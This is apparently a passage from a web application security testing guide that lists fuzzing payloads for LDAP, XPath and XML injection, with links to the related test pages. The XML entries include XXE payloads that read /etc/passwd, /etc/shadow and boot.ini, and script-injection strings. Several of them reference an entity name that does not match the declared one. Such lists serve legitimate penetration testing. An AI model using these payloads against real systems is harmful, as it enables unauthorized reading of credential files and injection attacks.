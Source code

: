 `admin*)((|userPassword=*)`

`*)(uid=*))(|(uid=*`

## XPATH Injection

For details on XPATH Injection: [Testing for XPath Injection](../4-Web_Application_Security_Testing/07-Input_Validation_Testing/09-Testing_for_XPath_Injection.md)

`'+or+'1'='1`

`'+or+''='`

`x'+or+1=1+or+'x'='y`

`/`

`//`

`//*`

`*/*`

`@*`

`count(/child::node())`

`x'+or+name()='username'+or+'x'='y`

## XML Injection

Details on XML Injection here: [Testing for XML Injection](../4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection.md)

`<![CDATA[<script>var n=0;while(true){n++;}</script>]]>`

`<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('gotcha');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>`

`<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[' or 1=1 or ''=']]></foof>`

`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file://c:/boot.ini">]><foo>&xee;</foo>`

`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xee;</foo>`

`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/shadow">]><foo>&xee;</foo>`

`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///dev/random">]><foo>&xee;</foo>`
